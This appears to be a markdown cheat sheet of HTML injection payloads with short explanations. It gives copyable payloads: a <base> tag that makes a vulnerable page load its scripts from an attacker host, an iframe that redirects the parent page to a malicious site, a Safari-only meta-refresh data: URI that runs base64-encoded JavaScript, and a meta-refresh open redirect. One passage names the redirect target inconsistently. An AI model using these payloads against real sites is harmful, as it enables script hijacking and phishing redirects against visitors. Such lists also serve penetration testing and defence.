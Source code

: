 # HTMLi
HTML Injection Payloads

## base

The HTML 
 element specifies the base URL to use for all relative URLs in a document.
Note: If multiple <base> elements are used, only the first href and first target are obeyed — all others are ignored.

### Relative URL redirection
`<base>` tag injection allows you to redirect relative url to the attacker host. For example, if the vulnerable site includes a script:
```html
<script src="/assets/some-script.js"></script>
```

so, if you inject before the relative remote script:
```html
<base href="https://attacker-website.com">
```
the browser will request https://attacker-website.com/assets/some-script.js.

## iframe
The `<iframe>` tag is used to embed an HTML document in another HTML document. If source of inserted document located on another origin, same origin policy will block any access to content of other document for both of them.

### Open redirect
Child document can view and set location property for parent, even if cross-origin top.window.location.
Inject an iframe to vulnerable-website.com:
```html
<iframe src=//malicious-website.com/toplevel.html></iframe>
```
where `https://malicious-website.com/toplevel.html` contains:
```html
<html><head></head><body><script>top.window.location = "https://malicious-website.com/pwned.html"</script></body></html>
```
When the iframe is loaded, the parent will be redirected to the https://malware-website.com/pwned.html page, even if the child document is loaded from a different origin. Same origin policy will be bypassed because the iframe is not being "sandboxed", q.v. .



## meta
The `<meta` tag represents metadata that cannot be represented by other HTML meta-related elements.
Some `<meta>` tags are informational, for example:
```html
<meta name="name" content="content">
```
And some affect the page in some way, for example:
```html
<meta http-equiv="content-security-policy" content="default-src 'none'; base-uri 'self'">
```
Moreover, CSP does not regulate such `<meta>` elements. `<meta http-equiv=...>` is a tag on the page that may emulate a subset of functions normally reserved for page headers. Similarly, some of these functions appear in Javascript, which is already heavily regulated by CSP. Dangerous functions that can be performed by `<meta http-equiv=...>` include:
..* set-cookie,
..* refresh:
....* redirect to any regular URL,
....* redirect to any data: URL.

set-cookie instruction was removed from the standard, and is no longer supported at all in Firefox 68 and Chrome 65.

## XSS
We can use the <meta> tag with content = "0; data: " URI to execute arbitrary Javascript code (works only on safari), for example:
```html
<meta name="language" content="0;data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==" http-equiv="refresh"/>
```
Firefox and Chrome will block this:
Not allowed to navigate top frame to data URL (Firefox)

    Navigation to toplevel data: URI not allowed (Chrome)

### Open redirect
Using a similar payload, you can redirect the victim to an malicious page:
```html
<meta name="language" content="5;http://malicious-website.com" http-equiv="refresh"/>
```
